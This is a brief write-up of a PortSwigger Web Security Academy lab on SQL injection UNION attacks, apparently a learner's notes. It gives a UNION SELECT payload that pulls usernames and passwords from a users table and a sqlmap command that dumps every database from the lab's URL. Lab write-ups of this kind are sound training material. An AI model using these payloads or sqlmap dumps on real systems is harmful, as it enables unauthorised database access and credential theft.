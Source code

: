 https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables
To select any wata we must use `UNION SELECT` instead of simply `UNION` because we are injection a query into another

If we could retrieve data from certain column, you should use `from` keyword
```
' UNION SELECT username, password FROM users--
```

### automated
You could easily do this lab with automated tools:
```bash
sqlmap --dump-all -u "https://0adc00b404a522928156e34000c8000d.web-security-academy.net/filter?category=Pets" -p category --level=3 --risk=3 --batch --dbs
```
